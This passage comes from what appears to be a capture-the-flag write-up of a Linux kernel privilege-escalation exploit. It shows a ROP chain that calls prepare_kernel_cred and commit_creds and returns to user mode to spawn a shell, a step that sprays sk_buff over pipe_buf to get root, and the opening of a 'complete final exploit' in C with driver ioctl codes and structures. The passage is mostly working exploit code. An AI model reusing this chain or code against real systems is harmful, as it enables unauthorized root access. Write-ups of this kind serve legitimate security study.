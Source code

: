 ```c
  } else {
    puts("[-] failed to get root");
  }
}
```

Lastly, our second stack:

```
+0x50: pop rdi ; ret ;
+0x58: <init_task>
+0x60: prepare_kernel_cred
+0x68: commit_creds
+0x70: swapgs ; ret ;
+0x78: iretq ; ret ;
+0x80: get_shell
+0x88: user_cs
+0x90: user_rflags
+0x98: user_sp
+0xa0: user_ss
```

After constructing this, we spray `sk_buff` onto `pipe_buf`, release all `pipe_buf` and should get root!

## Step 7: Running the exploit

This is my complete final exploit.

```c
#define _GNU_SOURCE

#include <signal.h>
#include <fcntl.h>
#include <sched.h>
#include <stdio.h>
#include <string.h>
#include <malloc.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/timerfd.h>
#include <sys/msg.h>
#include <sys/types.h>
#include <sys/socket.h>

#define READ 0xC030CA02
#define INSERT 0xC030CA00
#define REPLACE 0xC030CA01
#define DELETE 0xC030CA03

int cheminv = 0;

struct args {
  size_t unknown_1;
  size_t unknown_2;
  size_t idx;
  size_t size;
  void* note;
  void* name;
} args;

struct pipe_buf_ops {
  size_t confirm;
  size_t release;
```